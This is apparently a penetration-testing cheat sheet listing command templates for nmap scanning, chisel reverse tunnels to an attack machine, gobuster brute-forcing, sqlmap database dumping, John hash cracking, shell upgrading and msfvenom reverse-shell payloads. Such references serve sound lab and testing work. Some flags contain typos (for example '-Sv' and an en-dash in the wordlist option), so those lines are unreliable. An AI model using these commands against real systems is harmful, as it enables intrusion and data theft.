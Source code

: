 #### Network
- ##### Nmap
    - Default scan for a ip `nmap -sC -Sv -oA <path/to/dir> <ip>`
    - Scan all ports for a ip `nmap -p- <ip>`
    - Default scan for a ip plus `UDP` `nmap -sU -sC -Sv -oA <path/to/dir> <ip>`
- ##### Chisel
    - On attack machine `chisel server --reverse -p <listen-port>`
    - On target machine `chisel client <ip-attack-machine> <listen-port-attack-machine> R:<local-port-to-forward>:<attack-ip-to-map>:<attack-port-map>`

#### Directory
- ##### Gobuster
    -  Scan for dir `gobuster dir -w </path/to/list/file> -t <#thread> -u <ip> -o </path/to/output/file> -x <ext>`
    - Scan for vhost `gobuster vhost -w </path/to/list/file> -t <#thread> -u <ip> -o </path/to/output/file>`

### SQLI
- ##### sqlmap
    - Grab databases name from a request `sqlmap -r sqli.req --dbs --batch`
    - Grab tables name from a request `sqlmap -r sqli.req -D <dbname> --tables`
    - Dump table from a request `sqlmap -r sqli.req -D <dbname> -T <tablename> --dump`

#### Cracking
- ##### John
    - Crack hash dictionary attack`john –wordlist=<path/to/dictionary> <path/to/hash>`


#### User
- User permission `sudo -l`

#### Upgrade shell
-  `python3 -c "import pty;pty.spawn('/bin/bash')"`

### Paylaods
- ##### msfvenom
    - Create paylaod for reverse shell `msfvenom -p <reverse/shell/payload> LHOST=<local-ip> LPORT=<local-port> -f <format-file> -o <output-file>`
